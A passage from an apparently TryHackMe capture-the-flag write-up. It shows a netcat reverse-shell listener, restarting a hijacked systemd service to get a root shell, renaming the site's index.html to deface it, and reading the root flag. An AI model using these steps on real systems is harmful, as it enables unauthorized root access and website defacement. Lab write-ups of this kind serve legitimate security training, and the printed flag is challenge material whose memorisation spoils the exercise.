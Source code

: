 ```
```  
step 2. nc port 9999

`nc -lvnp 9999`  

step 3. restart duckyinc service  

```
server-admin@duckyinc:~$ sudo /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo /bin/systemctl restart duckyinc.service
```  

now we got reverce shell , and we can check privilege.
```
root@duckyinc:/var/www/duckyinc# whoami
whoami
root
```

step 4. find flag

usualy, final flag will place /root dirctory
```
root@duckyinc:/var/www/duckyinc# ls /root
ls /root
```  

we check flag3 hint is Mission objectives, in this story, we need to broke the web, so we change index.html name.

```
root@duckyinc:/var/www/duckyinc# cd templates
cd templates
root@duckyinc:/var/www/duckyinc/templates# ls
ls
404.html
500.html
admin.html
base.html
contact.html
index.html
login.html
product.html
products.html
root@duckyinc:/var/www/duckyinc/templates# mv index.html index2.html
mv index.html index2.html
root@duckyinc:/var/www/duckyinc/templates# ls /root
ls /root
flag3.txt
root@duckyinc:/var/www/duckyinc/templates# cat flag3
cat flag3
cat: flag3: No such file or directory
root@duckyinc:/var/www/duckyinc/templates# cat flag3.txt
cat flag3.txt
cat: flag3.txt: No such file or directory
root@duckyinc:/var/www/duckyinc/templates# cat /root/flag3.txt
cat /root/flag3.txt
thm{m1ss10n_acc0mpl1sh3d}
root@duckyinc:/var/www/duckyinc/templates#
```
